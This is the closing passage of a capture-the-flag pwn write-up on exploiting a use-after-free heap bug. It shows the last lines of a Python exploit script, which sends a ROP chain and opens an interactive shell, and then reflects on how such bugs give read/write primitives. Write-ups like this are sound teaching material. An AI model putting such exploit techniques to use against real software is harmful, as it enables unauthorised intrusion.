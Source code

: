 ```py
add(0x50, b"A"*8 + r.chain())

sla(b"choice:", b"5")

p.interactive()
```

Perhaps there might me a more efficient exploit that uses even less allocations and reallocations, but this will do for now!

## Reflection

The beauty of pwn challenges in CTFs is that there is no standard solution to solve it all. Different environment has different restrictions which makes it crucial for exploit developers to have a deep understanding in these low level mechanisms which may serve as useful exploit vectors to gain good read/write primitives from a simple UAF.

There is perhaps many alternative solutions to this challenge, and if you have any alternative exploit ideas/solutions, I'll be happy to hear it!

Hope this was a fun read :)